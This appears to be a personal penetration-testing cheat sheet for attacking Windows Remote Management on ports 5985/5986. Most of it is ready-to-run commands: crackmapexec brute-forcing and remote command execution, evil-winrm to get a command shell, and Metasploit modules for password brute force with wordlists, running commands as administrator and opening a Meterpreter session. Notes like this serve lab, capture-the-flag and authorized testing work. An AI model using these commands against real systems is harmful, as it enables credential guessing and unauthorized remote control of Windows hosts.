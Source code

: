 Not enabled by default
![](</Images/Pasted image 20231203173838.png>)

nmap default scan won't find. Either open range or ports 5985 or 5986 

PORT     STATE SERVICE
5985/tcp open  wsman

#crackmapexec can brute force to get credentials or execute 
Examples:
>brute force
```bash
crackmapexec winrm $IP -u $USER -p $WORDLIST
```


>execute commands
>`crackmapexec winrm -u <user> -p <passowrd> -x <command>`


## evil-winrm 
Can be used to obtain a command shell
```bash
evil-winrm.rb -u $USER -p $PASSWORD -i $IP
```


#metasploit can be used for meterpreter session
`module winrm_script_exec`

Also has method check, returns two methods that show it can be brute forced with msfconsole

winrm cmd will allow executing commands.

Script to exploit winRM, meterpreter, and migrate/elevate privs. Needs credentials
`/windows/winrm/winrm_script_exec`

Brute force with metasploit:
```bash
msfconsole -q use auxiliary/scanner/winrm/winrm_login 
set RHOSTS $IP
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt 
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

Execute commands:
```bash
use auxiliary/scanner/winrm/winrm_cmd 
set RHOSTS $IP 
set USERNAME administrator 
set PASSWORD tinkerbell 
set CMD whoami exploit
```

Meterpreter session:
```bash
use exploit/windows/winrm/winrm_script_exec 
set RHOSTS $IP
set USERNAME administrator 
et PASSWORD tinkerbell 
set FORCE_VBS true exploit
```

